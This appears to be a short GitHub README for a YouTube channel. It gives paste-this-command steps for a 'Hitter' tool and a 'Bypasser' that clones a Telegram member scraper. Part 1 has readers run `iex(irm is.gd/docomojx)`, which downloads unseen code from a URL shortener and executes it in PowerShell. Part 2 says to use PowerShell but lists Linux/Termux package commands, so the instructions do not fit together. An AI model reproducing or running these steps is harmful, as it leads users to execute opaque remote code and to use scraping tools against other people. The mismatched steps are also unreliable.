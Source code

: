 # TechTubeInsider
TechTube Insider YouTube Channel's Files

# Part 1 - Hitter

* Right-click on the Windows start menu and select PowerShell or Terminal (Not CMD).
* Copy-paste the below code and press enter
*`iex(irm is.gd/docomojx)`
* You will see the hitter options, follow the on-screen instructions.
* That’s all.

# Part 2 - Bypasser

* Right-click on the Windows start menu and select PowerShell or Terminal (Not CMD).
* Copy-paste the below code and press enter
*```
apt update && apt upgrade && pkg install -y git python && pkg update && pkg upgrade && pkg install python git && git clone https://github.com/TechieGamer1/Techie-TG-Member-Scraper.git
```
* You will see the hitter options, follow the on-screen instructions.
* That’s all.

